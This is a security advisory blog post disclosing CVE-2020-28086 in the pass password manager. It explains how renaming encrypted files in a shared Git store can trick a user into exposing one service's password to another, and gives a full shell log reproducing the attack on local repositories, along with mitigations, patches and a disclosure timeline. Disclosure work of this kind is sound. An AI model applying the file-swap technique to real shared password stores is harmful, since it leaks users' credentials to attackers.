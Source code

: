 ```yaml
---
layout: post
title: "CVE-2020-28086 information leakage through third party service in pass"
author: capitol
category: security
---
```

![pass-passwordstore](/images/pass-passwordstore.png)

[`pass`](https://www.passwordstore.org/) is a password manager that encrypts your or your
team's passwords with GPG and optionally stores them in a Git repository.

Each password is encrypted in its own file, often named after the service and username.
For example the password for the user `richard` on the service Spotify might be named
`spotify/richard.gpg`.

## Trust Boundaries

It's possible to configure your usage of `pass` in many ways, but if you are using it in a team then
this is a common setup:

Each member has a local machine with a GPG configuration that trusts all other members of the team.

The password store is in Git, and there is a central server to which all team members push and pull.

Here we have three zones:

 * Your own machine
 * The central server
 * The other team members

Any operator in one of the zones shouldn't be able to cross a zone barrier and gain
information or resources from another zone.

## The Attack

If an attacker controls the following:

 * The central Git server or one of the other members' machines
 * One of the services that have a password already in the password store

Then they can do the following:

Rename one of the password files in the Git repository to the password file of the controlled service.

`pass` doesn't correctly verify that the content of file matches the filename, so a user
might be tricked to decrypting the wrong password and send that to a service that the
attacker controls.

## Example

Given this setup:
 * A user Bob with a local installation of `pass`
 * A git server where the passwords are stored
 * One password to `bob@server1.example.com`
 * One password to `bob@server2.example.com`
 * An attacker called Mallory

If Mallory takes control over the central Git server and `server2.example.com` then he could
rename the file named `bob@server1.example.com.gpg` to `bob@server2.example.com` and commit it.

The next time that Bob then does a git pull and accesses `server2.example.com` his password to
`server1.example.com` will be exposed.

## Possible Mitigations

GPG supports storing the filename in the encryption packet. This can be set with the
`--set-filename` flag when storing a password and needs to be verified by the `pass` software before
decryption happens.

But the filename field in GPG have a couple of problems. It's limited to 255 bytes and the
specification doesn't specify what encoding that should be used. This might make it vulnerable
to further attacks due to encoding confusion.

Another solution would be to use a [signature notation](https://docs.sequoia-pgp.org/sequoia_openpgp/packet/signature/subpacket/struct.NotationData.html)
packet in GPG. It has a length of up to 64 KB. It can also be set on the `gpg` command line:

```
echo 1 |
    gpg -se --sig-notation \!filename@pass=/path/to/file.gpg -r alexander.kjall@gmail.com |
    gpg -d --verify-options show-notations --known-notation \!filename@pass
```

### Patches

A crude attempt at writing a patch for this vulnerability is in these two patches,
[adding signature]({% link /assets/0001-Sign-and-anotate-commits-with-a-filename-passwordsto.patch %})
and [verify signature]({% link /assets/0002-When-decrypting-a-password-file-first-verify-that-th.patch %}).

The patches tries to mitigate the vulnerability by applying a signature notation, but they don't
include any migration strategy for existing password stores.

## Reproduction Steps

Here is a log of the steps to reproduce the vulnerability:

```
capitol@tool:/tmp$ PASSWORD_STORE_DIR=/tmp/store1 pass init 0x1D108E6C07CBC406
Password store initialized for 0x1D108E6C07CBC406
capitol@tool:/tmp$ cd store1/
capitol@tool:/tmp/store1$ git init
Initialized empty Git repository in /tmp/store1/.git/
capitol@tool:/tmp/store1$ cd ..
capitol@tool:/tmp$ PASSWORD_STORE_DIR=/tmp/store1 pass generate bob@server1.example.com
[master (root-commit) 208e574] Add generated password for bob@server1.example.com.
 1 file changed, 1 insertion(+)
 create mode 100644 bob@server1.example.com.gpg
The generated password for bob@server1.example.com is:
7A\ZOg(|`L.G0{Dce^a~SPiC~
capitol@tool:/tmp$ PASSWORD_STORE_DIR=/tmp/store1 pass generate bob@server2.example.com
[master 4e43e37] Add generated password for bob@server2.example.com.
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 bob@server2.example.com.gpg
The generated password for bob@server2.example.com is:
"}zC}4d[wD%N$<7D@WO@2QA-f
capitol@tool:/tmp$ cd store1/
capitol@tool:/tmp/store1$ git add .gpg-id
capitol@tool:/tmp/store1$ git commit -m ".gpg-id"
[master 29e4c37] .gpg-id
 1 file changed, 1 insertion(+)
 create mode 100644 .gpg-id
capitol@tool:/tmp/store1$ cd /tmp/server/
capitol@tool:/tmp/server$ git init --bare
Initialized empty Git repository in /tmp/server/
capitol@tool:/tmp/server$ cd /tmp/store1/
capitol@tool:/tmp/store1$ git push --set-upstream /tmp/server/ master
Enumerating objects: 9, done.
Counting objects: 100% (9/9), done.
Delta compression using up to 4 threads
Compressing objects: 100% (8/8), done.
Writing objects: 100% (9/9), 1.56 KiB | 798.00 KiB/s, done.
Total 9 (delta 2), reused 0 (delta 0)
To /tmp/server/
 * [new branch]      master -> master
Branch 'master' set up to track remote branch 'master' from '/tmp/server/'.
capitol@tool:/tmp/store1$ cd ..
capitol@tool:/tmp$ git clone /tmp/server/ store2
Cloning into 'store2'...
done.
capitol@tool:/tmp$ cd store2/
capitol@tool:/tmp/store2$ cp bob@server1.example.com.gpg bob@server2.example.com.gpg
capitol@tool:/tmp/store2$ git add .
capitol@tool:/tmp/store2$ git commit -m "this is the attack"
[master d239dd5] this is the attack
 1 file changed, 0 insertions(+), 0 deletions(-)
capitol@tool:/tmp/store2$ git push
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Delta compression using up to 4 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (2/2), 406 bytes | 406.00 KiB/s, done.
Total 2 (delta 1), reused 0 (delta 0)
To /tmp/server/
   29e4c37..d239dd5  master -> master
capitol@tool:/tmp/store2$ cd /tmp/store1/
capitol@tool:/tmp/store1$ git pull
remote: Enumerating objects: 3, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 2 (delta 1), reused 0 (delta 0)
Unpacking objects: 100% (2/2), 386 bytes | 386.00 KiB/s, done.
From /tmp/server
 * branch            master     -> FETCH_HEAD
Updating 29e4c37..d239dd5
Fast-forward
 bob@server2.example.com.gpg | Bin 173 -> 173 bytes
 1 file changed, 0 insertions(+), 0 deletions(-)
capitol@tool:/tmp/store1$ PASSWORD_STORE_DIR=/tmp/store1 pass show bob@server2.example.com
7A\ZOg(|`L.G0{Dce^a~SPiC~
```

The password that is shown on the last line is the password associated with `bob@server1.example.com`.

## Timeline

* 2020-10-22 Email sent to main developer of pass
* 2020-10-24 CVE requested
* 2020-10-24 Email sent to main developer of [QtPass](https://qtpass.org/)
* 2020-10-24 Email sent to main developer of [gopass](https://www.gopass.pw/), the attack is outside of
  `gopass` stated security policy.
* 2020-10-24 Email sent to main developer of [upass](https://github.com/Kwpolska/upass), upass
  calls out to pass in a subshell and is therefore not directly affected.
* 2020-10-24 Email sent to main developer of [pass-winmenu](https://github.com/geluk/pass-winmenu)
* 2020-11-13 Email with first draft of a patch sent
* 2020-12-07 CVE number assigned
